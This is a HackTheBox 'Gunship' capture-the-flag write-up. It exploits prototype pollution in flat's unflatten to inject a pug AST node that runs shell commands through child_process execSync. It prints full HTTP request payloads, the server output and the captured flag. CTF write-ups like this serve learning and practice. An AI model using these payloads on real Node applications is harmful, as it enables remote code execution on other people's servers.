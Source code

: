 ```yaml
---
title: HTB Gunship - Writeup
date: "2021-12-27"
draft: false
tags: ["hackthebox", "challenges", "web", "js", "writeup"]
---
```


Access details -> 159.65.31.1:32618

We are provided with a website which has only one input field and we have the source code available. 

So let's go through the source code which is made available to us.

### Quick Recon
- Packages installed (`package.json`)
	```json
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
	```
	- We have `pug:3.0.0` which is vulnerable to RCE.
	- Source: https://github.com/pugjs/pug/issues/3312

- Location of vulnerability (`routes/index.js`)
	```js
	const pug = require('pug');

	...
	router.post('/api/submit', (req, res) => {
	    const { artist } = unflatten(req.body);
	
		if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
			return res.json({
				'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
			});
		} else {
			return res.json({
				'response': 'Please provide us with the full name of an existing member.'
			});
		}
	});
	```

- Request submitted through `/api/submit` where body of the request(`req.body`) is passed to `unflatten`.
- So we can pass our payload through the body and when it is unflattened, we can prolly get RCE.

### Exploiting the bug
- We navigate to `/` (http://159.65.31.1:32618/) and then enter some random values, intercept the request in Burp. 
- Modify the request of the body so it looks like:
```HTTP
POST /api/submit HTTP/1.1
Host: 159.65.31.1:32618
Content-Length: 170
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Content-Type: application/json
Accept: */*
Sec-GPC: 1
Origin: http://159.65.31.1:32309
Referer: http://159.65.31.1:32309/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{
	"artist.name":"Haigh","__proto__.block": {
	"type": "Text", 
	"line": "process.mainModule.require('child_process').execSync('$(ls | grep flag)')"
	}
}
```

- Output:
```html
<pre>Error: Command failed: $(ls | grep flag)<br>/bin/sh: flagQLGyS: not found<br> on line 1<br>
```
*Note: We are running `$(ls |  grep flag)` instead of `ls | grep flag` because when the command executes without any error, we cannot see the output*

- Now let's `cat` the file
	- Reques bodyt:
		```json
		{
			"artist.name":"Haigh","__proto__.block": {
	        "type": "Text", 
	        "line": "process.mainModule.require('child_process').execSync('$(cat flagQLGyS)')"
		    }
		}
		```
	- Output:
	```html
	<pre>Error: Command failed: $(cat flagQLGyS)<br>/bin/sh: HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}: not found
	<br> on line 1<br>
	```

References:
- (Peak resource) https://blog.p6.is/AST-Injection/
